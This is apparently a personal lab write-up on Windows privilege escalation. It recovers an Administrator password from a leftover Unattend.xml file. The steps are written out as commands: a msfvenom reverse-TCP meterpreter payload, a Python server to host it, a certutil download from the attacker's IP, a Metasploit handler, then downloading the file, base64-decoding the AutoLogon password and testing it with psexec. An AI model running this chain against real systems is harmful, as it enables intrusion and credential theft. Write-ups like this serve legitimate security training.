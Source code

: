 
Related to [[Windows Password Hashes]] and [[Post Exploitation]]

Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.

This is typically done through the use of Unattended Windows Setup utility, which is used to automate the mass install/deployment of Windows on system.

These tool config files contain specific configs and user account credentials, specifically the Administrators password.

If the UWS config files are left on a target after an install they can reveal information an attacker may use.

We can find unattend.xml manually with rdp but we may also use a meterpreter session

---

This is a writeup of the lab:

(To create a Windows msfvenom payload for [[Metasploit]])

``` bash
msfvenom -p windows/x[arch]/meterpreter/reverse_tcp LHOST=[lIP] LPORT=[lIP] -f exe > payload.exe
```

Then setup a python http server to host the payload:

``` bash
python -m SimpleHTTPServer 80
```

Then download it from the target system:

``` bash
certutil -urlcache http://[lIP]/[filepath] [output/savefile]
```

We then need to setup the multi handler on the attacker machine:

``` bash
service postgresql start && msfconsole
use multi/handler
set PAYLOAD [payload]
set lPORT [lIP]
set LHOST [lIP]
```

Then run the payload on the victim machine

Now we can use the search utility:

``` bash
search -f Unattend.xml
```

(Or search manually, in this case it's on C://Windows/Panther)

``` bash
download Unattend.xml
```

Then we search for 

```
<AutoLogon>
```

which should contain administrators password.
It may be encoded in base64

``` bash
base64 -d [passfile]
```

We can discover if the password is correct using psexec:

``` bash
psexec.py administrator@rIP
```

And inserting the passwords when prompted.
